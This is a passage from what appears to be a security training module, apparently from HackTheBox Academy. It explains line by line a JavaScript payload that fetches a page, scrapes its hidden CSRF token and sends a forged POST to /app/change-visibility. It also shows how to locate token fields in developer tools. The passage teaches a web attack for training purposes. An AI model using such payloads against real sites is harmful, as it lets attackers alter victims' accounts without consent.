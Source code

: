 In the script snippet above, we see the _onload_ event handler, which will perform an action once the page has been loaded. This action will be related to the _handleResponse_ function that we will define later.

```javascript
req.open('get','/app/change-visibility',true);

```

In the script snippet above, we pass three arguments. _get_ which is the request method, the targeted path _/app/change-visibility_ and then _true_ which will continue the execution.

```javascript
req.send();

```

The script snippet above will send everything we constructed in the HTTP request.

```javascript
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};

```

The script snippet above defines a function called _handleResponse_.

```javascript
var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];

```

The script snippet above defines a variable called _token_, which gets the value of _responseText_ from the page we specified earlier in our request. `/name="csrf" type="hidden" value="(\w+)"/)[1];` looks for a hidden input field called _csrf_ and \\w+ matches one or more alphanumeric characters. In some cases, this may be different, so let us look at how you can identify the name of a hidden value or check if it is actually "CSRF".

Open Web Developer Tools (Shift+Ctrl+I in the case of Firefox) and navigate to the _Inspector_ tab. We can use the _search_ functionality to look for a specific string. In our case, we look for _csrf_, and we get a result.

![image](https://academy.hackthebox.com/storage/modules/153/57.png)

**Note**: If no result is returned and you are certain that CSRF tokens are in place, look through various bits of the source code or copy your current CSRF token and look for it through the search functionality. This way, you may uncover the input field name you are looking for. If you still get no results, this doesn't mean that the application employs no anti-CSRF protections. There could be another form that is protected by an anti-CSRF protection.

```javascript
var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');

```
